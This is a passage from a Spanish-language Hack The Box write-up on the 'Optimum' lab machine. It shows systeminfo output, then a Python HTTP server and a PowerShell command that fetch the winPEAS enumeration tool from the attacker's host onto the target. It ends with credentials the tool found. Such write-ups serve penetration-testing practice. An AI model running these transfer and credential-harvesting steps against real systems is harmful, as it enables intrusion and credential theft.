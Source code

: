 ```cmd
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```


A continaución lanzo winpeas a ver si me arroja algo de información valiosa.

Para subirlo a la máquina windows uso el servidor de python.

``python3 -m http.server 8080``

Y desde powershell

```powershell
 iwr -Uri http://10.10.14.3:8080/winPEASx64.exe -OutFile C:\ProgramData\winPEASX64.exe 
 ```

Una vez lo tenemos lo ejecutamos 

Y he encontrado unas credenciales --> kostas:kdeEjDowkS*

![](/assets/images/HTB/Optimum-HackTheBox/credencialeswinpeas.png)

Pero debemos buscar algo más, ya que no tenemos formas de escalar en este momento.
